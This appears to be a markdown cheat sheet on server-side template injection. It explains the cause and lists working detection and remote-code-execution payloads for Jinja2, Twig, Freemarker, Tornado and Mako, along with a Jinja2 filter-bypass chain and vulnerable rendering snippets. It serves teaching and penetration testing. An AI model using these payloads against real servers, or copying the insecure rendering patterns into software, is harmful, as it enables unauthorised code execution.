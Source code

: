 # Server-Side Template Injection (SSTI)

## Table of Contents
1. [Introduction](#introduction)
2. [How Does SSTI Vulnerability Occur?](#how-does-ssti-vulnerability-occur)
3. [Where to Put an SSTI Payload?](#where-to-put-an-ssti-payload)
4. [Examples of HTTP Requests with SSTI Payloads](#examples-of-http-requests-with-ssti-payloads)
   - [Basic SSTI in a Python Flask/Jinja2 Application](#basic-ssti-in-a-python-flaskjinja2-application)
   - [Exploiting SSTI to Execute Arbitrary Code](#exploiting-ssti-to-execute-arbitrary-code)
   - [SSTI in a PHP Application Using Twig](#ssti-in-a-php-application-using-twig)
   - [Java Application Using Freemarker](#java-application-using-freemarker)
5. [Breaking Out of Expressions](#breaking-out-of-expressions)
6. [SSTI Payloads for Detection](#ssti-payloads-for-detection)
7. [SSTI Payloads for Specific Template Engines](#ssti-payloads-for-specific-template-engines)
   - [Tornado (Python)](#tornado-python)
   - [Mako (Python)](#mako-python)

---

## Introduction
**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

## How Does SSTI Vulnerability Occur?
SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

## Where to Put an SSTI Payload?
An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

## Examples of HTTP Requests with SSTI Payloads
### Basic SSTI in a Python Flask/Jinja2 Application
**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
**In code context**:

![Screenshot From 2025-03-21 10-20-10](https://github.com/user-attachments/assets/8f83b265-7297-4f52-aa10-3ec37bafcd78)

### Exploiting SSTI to Execute Arbitrary Code
**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### SSTI in a PHP Application Using Twig
**Malicious Payload (`{{7*7}}`)**:
- In Twig, this would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```

### Java Application Using Freemarker
**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```

**Vulnerable Code Example**:
```java
template.process(dataModel, out);
```

## Breaking Out of Expressions
In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}
   ```

## SSTI Payloads for Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

## SSTI Payloads for Specific Template Engines
### Tornado (Python)
**Detection Payload**:
```python
{{7*7}}
```

**Execution Payload**:
```python
{{__import__('os').popen('whoami').read()}}
```

### Mako (Python)
**Detection Payload**:
```python
${7*7}
```

**Execution Payload**:
```python
${self.module.cache.util.os.popen("whoami").read()}
```

### jinja2 filter bypass
```
{{ ()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')() }}
```
---
